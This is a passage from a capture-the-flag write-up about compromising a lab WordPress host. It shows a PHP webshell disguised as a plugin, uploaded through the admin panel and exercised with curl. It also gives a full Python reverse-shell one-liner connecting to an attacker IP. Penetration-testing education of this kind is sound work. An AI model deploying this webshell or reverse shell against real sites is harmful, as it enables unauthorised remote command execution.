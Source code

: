 I’ll create the webshell and name it `0xdf.php`:

```

<?php
 /*
 Plugin Name: 0xdf Plugin
 Version: 1.0.0
 Author: 0xdf
 Author URI: wordpress.org
 License: GPL2
 */
system($_REQUEST["0xdf"]);
?>

```

The comments are necessary for WordPress to accept it as a plugin. Now I’ll add that to a zip file:

```

root@kali# zip 0xdf-plug.zip 0xdf.php
  adding: 0xdf.php (deflated 11%)

```

Under Plugins -> Add New, I’ll click the Upload Plugin button and find the zip:

![image-20210127110122700](https://0xdfimages.gitlab.io/img/image-20210127110122700.png)

When I hit Install Now, it reports success:

![image-20210127110155714](https://0xdfimages.gitlab.io/img/image-20210127110155714.png)

I don’t need to hit Activate, as installing is enough to drop the file at the right path. Now I can use `curl` or Firefox to execute commands:

```

root@kali# curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php?0xdf=id
uid=20143(nginx) gid=20144(nginx) groups=20144(nginx)

```

### Shell

With either webshell, getting a shell is as simple as passing it a reverse shell. I like to use `curl` so it’s repeatable.

It doesn’t look like `nc` is on the host, so that eliminates several command reverse shells. I got the Python one to work:

```

root@kali# curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

```
